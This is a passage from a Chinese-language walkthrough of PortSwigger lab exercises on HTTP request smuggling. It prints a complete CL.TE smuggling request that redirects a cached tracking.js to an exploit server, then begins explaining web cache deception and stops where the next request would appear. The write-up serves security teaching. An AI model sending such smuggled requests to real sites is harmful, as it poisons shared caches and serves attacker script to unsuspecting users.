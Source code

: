 这个环境也是一个可以修改 Host 进行跳转的场景，而在`/post/next?postId=2`路由正好有一个跳转的 api 供我们使用，这个路由跳转到的是`/post?postId=4`。

选择`/resources/js/tracking.js`进行投毒，进行以下设置：

![image-20200716104253220](http%E8%B5%B0%E7%A7%81/1594912553.png!small)

使用漏洞利用服务器的主机名启动的攻击，以毒化服务器缓存，构造数据包：

```
POST / HTTP/1.1
Host: acb61fb81ff55c6580dd489600210048.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=dI8YCOAhKmFfWG2IpulfysNUQ2X404e3
Upgrade-Insecure-Requests: 1
Content-Length: 182
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: ac5a1f711ff15cf780ed48720140009f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1


```

发送数据包，然后访问`/resources/js/tracking.js`:

![image-20200716105706714](http%E8%B5%B0%E7%A7%81/1594912565.png!small)

我们可以看到响应包的跳转地址被我们修改成了我们 exploit 的服务器地址，然后我们访问正常服务器主页试试：

![image-20200716110953602](http%E8%B5%B0%E7%A7%81/1594912586.png!small)

出现弹框。

### 5.7使用HTTP请求走私来执行Web缓存欺骗

在攻击的另一种形式中，您可以利用HTTP请求走私来执行Web缓存欺骗。这与Web缓存中毒攻击的工作方式相似，但目的不同。

**Web缓存中毒和Web缓存欺骗之间有什么区别？**

- 在**Web缓存中毒中**，攻击者使应用程序在缓存中存储一些恶意内容，然后将这些内容从缓存中提供给其他应用程序用户。
- 在**Web缓存欺骗中**，攻击者使应用程序将一些属于另一个用户的敏感内容存储在缓存中，然后攻击者从缓存中检索此内容。

Lab地址：https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception

先登录账户，单击右上角的“帐户详细信息”，然后观察到响应没有任何反缓存标头。构造数据包：
